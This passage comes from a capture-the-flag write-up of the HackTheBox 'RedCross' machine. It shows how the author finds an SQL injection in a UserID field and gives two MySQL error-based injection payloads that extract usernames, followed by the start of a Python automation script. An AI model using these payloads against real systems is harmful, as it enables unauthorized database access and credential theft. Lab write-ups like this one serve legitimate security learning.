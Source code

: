 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2005:26:14.png)

Get logged in as Guest

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2005:26:38.png)

### SQLInjection

Now, if we try to put a `'` on the UserID, we will se that it will trigger a SQL Error. Seems that we have a SQLInjection on this box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2005:27:57.png)

Now, let's explore it

First, we must find a way to determine how the query is being mounted, based on the error message

We got a good post from [Netspi](https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql) which will help us

We get a query test on this website for getting the version and testing it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2005:52:57.png)

```
SELECT 1 AND(SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT username FROM USERS LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2005:53:11.png)

And we get the version of the database, which is great.

Now we can start the extraction of data from it

```
1') AND (SELECT 1 FROM (SELECT COUNT(*),concat(0x3a,(SELECT username FROM users LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)-- -
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-09-HackTheBox-RedCross/2021-09-09-HackTheBox-RedCross%2005:59:00.png)

Let's mount a script in python to automate it and retrieve all the info I need

So, we'll start with our python skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```
